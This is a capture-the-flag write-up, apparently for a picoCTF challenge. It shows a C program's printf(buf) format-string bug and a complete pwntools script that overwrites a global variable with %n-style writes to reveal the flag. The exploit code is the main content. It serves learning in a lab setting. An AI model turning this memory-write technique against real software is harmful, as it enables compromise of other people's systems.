 In the source code we can see that there is a format string vulnerability:

```c
scanf("%1024s", buf);
printf("Here's your input: ");
printf(buf);
```
Later in the code there is also a win condition to get the flag:

```c
if (sus == 0x67616c66) {
    printf("I have NO clue how you did that, you must be a wizard. Here you go...\n");

    // Read in the flag
    FILE *fd = fopen("flag.txt", "r");
    fgets(flag, 64, fd);

    printf("%s", flag);
    fflush(stdout);
}
```
So the goal of the challenge is to use the Format String vulnerability and change the value of the `sus` global variable to `0x67616c66`.

Normally the way you would do this is to write a certain number of bytes before a `%n` format string but I didn't really want to do all that so I just used pwntools.

Here is my final solve script:

```py
from pwn import *

context.binary = binary = ELF("./vuln")

def exec_func(payload):
    with process("vuln") as p:
        p.sendline(payload)
        p.recvuntil(b"input: ")
        res = p.recvline()
        print(res)
        return res.strip()


# adjust offset
p = process()
# p = remote("rhea.picoctf.net", 63689)

fmtstr = FmtStr(exec_func)
log.info(fmtstr.offset)
sus = 0x00404060

payload = b"A" * fmtstr.padlen + fmtstr_payload(fmtstr.offset, {sus: 0x67616C66})
p.sendline(payload)


p.interactive()
```

